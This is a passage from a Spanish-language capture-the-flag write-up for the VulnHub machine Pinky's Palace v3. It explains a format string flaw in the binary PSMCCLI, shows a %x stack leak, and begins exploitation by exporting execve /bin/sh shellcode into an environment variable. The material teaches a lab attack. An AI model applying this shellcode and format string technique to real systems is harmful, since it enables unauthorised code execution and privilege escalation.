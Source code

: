 Observamos que usa las funciones `printf` para mostrar el mensaje.

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-31.png)

Estas pueden ser o suelen ser vulnerables a  **format string**. Es una vulnerabilidad clásica.
Es cuando un programa hace algo como:

```c
printf(user_input);  // ❌ VULNERABLE
```

En lugar de:

```c
printf("%s", user_input);  // ✅ SEGURO
```

> Cuando el programa **pasa el input directamente como formato**, el atacante puede controlar **cómo se imprime**, acceder a la memoria e incluso **escribir valores arbitrarios en memoria**.
{. prompt-warning }

Si pasamos el argumento `%x` muestra valores de la pila.

```bash
pinksecmanagement@pinkys-palace:/usr/local/bin$ /usr/local/bin/PSMCCLI %x
[+] Args: bffff704
```

### Explotando el format string

- Shellcode

[Fuente](http://shell-storm.org/shellcode/files/shellcode-827.php)

```bash
export SCODE=$(echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
```
